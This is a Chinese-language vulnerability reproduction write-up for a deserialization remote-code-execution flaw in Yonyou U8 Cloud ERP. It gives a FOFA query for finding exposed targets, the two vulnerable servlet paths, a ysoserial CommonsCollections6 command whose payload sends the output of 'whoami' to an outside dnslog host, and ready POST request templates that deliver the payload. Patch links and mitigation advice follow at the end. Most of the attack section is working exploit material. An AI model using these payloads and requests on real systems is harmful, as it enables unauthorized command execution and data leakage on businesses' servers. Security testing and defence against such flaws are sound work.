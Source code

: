 
# 用友 U8 Cloud 反序列化 RCE 漏洞复现

### 0x01 产品简介

     用友 U8 Cloud 是用友推出的新一代云 ERP，主要聚焦成长型、创新型企业，提供企业级云 ERP 整体解决方案。

### 0x02 漏洞概述

   用友 U8 Cloud 存在多处（FileManageServlet 和 LoginVideoServlet）反序列化漏洞，系统未将用户传入的序列化数据进行过滤就直接执行反序列化操作，结合系统本身存在的反序列化利用链，最终造成远程代码执行。

### 0x03 影响范围

    用友 U8 Cloud 所有版本

### 0x04 复现环境

FOFA：app="用友-U8-Cloud"

![382252d9fc41453b9a7fa23584a3a67f.png](assets/1699406333-60abbee1f79f2aef2f392c4b07bfc936.png)

### 0x05 漏洞复现

两处接口的反序列化漏洞路径：

```cobol
/servlet/~uap/nc.impl.pub.filesystem.FileManageServlet
/servlet/~uap/nc.bs.sm.login2.LoginVideoServlet
```

PS：用友的反序列化漏洞大部分 cc6 就可以直接打，post 请求传入反序列化的二进制数据 就可以进行命令执行，ysoserial 工具集成了多种 cc 链，感兴趣的可以研究研究

工具地址：[https://github.com/frohoff/ysoserial/releases/tag/v0.0.6](https://github.com/frohoff/ysoserial/releases/tag/v0.0.6 "https://github.com/frohoff/ysoserial/releases/tag/v0.0.6")

构造序列化数据 (jdk1.8)

```cobol
java -jar ysoserial-all.jar CommonsCollections6 "ping `whoami`.l4z6nq7x.dnslog.pw" >4.ser
```

 PoC

![176d64f380e941cbb0e8b7de24f4eb8d.png](assets/1699406333-7eae4d74e076ca6043234a3d5070148d.png) ![3afa1c9bfaeb45a3a8cb99ba91f922eb.png](assets/1699406333-c2b1169d4a40ef23ae616a906f3dbb9e.png)

```handlebars
POST /servlet/~uap/nc.impl.pub.filesystem.FileManageServlet HTTP/1.1
Host: {{Hostname}}
Content-Type: *

{{file(C:\Users\m1813\Desktop\4.ser)}}
```

```handlebars
POST /servlet/~uap/nc.bs.sm.login2.LoginVideoServlet HTTP/1.1
Host: {{Hostname}}
Content-Type: *

{{file(C:\Users\m1813\Desktop\4.ser)}}
```

PS：里面生成序列化数据文件的路径自行修改 

![14efce9e7ce84a86a7e062786f63d4fd.png](assets/1699406333-b57d3b68ca1b9bb9a8229f8aa92821ab.png)

![0c40514c2bcd40749a8a985dda1a4186.png](assets/1699406333-daf90c0bc6d53db5a44337add3b09223.png)

![e823be4103cb49f89a223e88ad6eda97.png](assets/1699406333-5af93c219c722f5aef8eec0d707da993.png)

两个路径都可以打，自行测试 

### **0x06 修复建议**

**官方修复方案**：  
用友安全中心已发布官方补丁：  
https://security.yonyou.com/#/noticeInfo?id=400  
https://security.yonyou.com/#/noticeInfo?id=399

  
**临时修复方案：**  
使用 ACL 网络策略限制访问来源；  
使用防护类设备对/servlet/~uap/nc.impl.pub.filesystem.FileManageServlet 和/servlet/~uap/nc.bs.sm.login2.LoginVideoServlet 路径进行防护。
